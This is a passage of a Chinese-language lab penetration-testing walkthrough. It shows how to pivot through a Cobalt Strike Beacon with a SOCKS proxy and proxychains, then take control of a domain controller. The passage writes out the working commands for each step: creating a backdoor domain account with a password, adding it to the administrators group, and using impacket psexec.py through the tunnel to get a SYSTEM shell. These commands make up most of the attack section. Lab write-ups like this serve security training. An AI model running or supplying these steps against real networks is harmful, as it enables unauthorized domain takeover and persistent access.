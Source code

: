   > 注意：不能直接使用hashdump查看域的用户hash,只能查看本地用户的hash，所以我们无法直接拿到域控权限

  - 启用一个代理 （使用system进程），使cobaltstrike开启一个监听，端口为10081

    ![image-20230918004018362](https://p.ipic.vip/fbwvhx.png)

  - c2客户端配置代理 (需要安装proxychains4)

    > cs server主机与上线的 Beacon（在受控制的目标机器上）之间创建一个隧道，使得任何通过该代理的流量实际上都会被转发到那个特定的 Beacon，然后从那里出到目标网络

    ```shell
    # 编辑配置文件
    sudo vim /etc/proxychains.conf   或者这个路径  sudo vim /usr/local/etc/proxychains.conf
    
    # 添加以下配置,ip为你cs_server的ip,它会把你的流量
     [ProxyList]
     socks5 vps_ip 10081
    ```

    win7上使用phpstudy启动了http服务，可以测试使用代理访问

    `proxychains4 nc -vv 192.168.111.140 80`：成功访问111网段

    ![image-20230918013938277](https://p.ipic.vip/9883iy.png)

  

  #### 4. 获取域控主机权限

  - 第一种方法，新创建域账户

    ```
    shell net user lulu Qq123456.. /add /domain         # 添加一个域账户
    shell net localgroup administrators test.local\lulu /add /do     #加入管理员组
    
    shell net user /do     # 查看域用户，lulu用户已经添加
    ```

    ![image-20230918020808019](https://p.ipic.vip/44l9ha.png)

    - 查看用户信息

      ![image-20230918021213573](https://p.ipic.vip/rnedox.png)

    - 测试 (使用impacket)

      > Impactket psexec.py 原理就是通过通过认证SMB协议，成功之后上传一个可执行文件，然后通过RPC在目标机器上注册一个新的Windows服务，服务就是上传的可执行文件的路径，启动服务之后，可以获得system shell；
      >
      > Windows 服务在默认情况下通常是以 `NT AUTHORITY\SYSTEM` 身份运行的，所以我们拿到的用户身份是：NT AUTHORITY\SYSTEM;

      ```shell
      proxychains4 python3 psexec.py lulu:Qq123456..@192.168.111.130
      
      chcp 65001       # 修改为中文编码
      whoami           # 查看当前用户
      ```
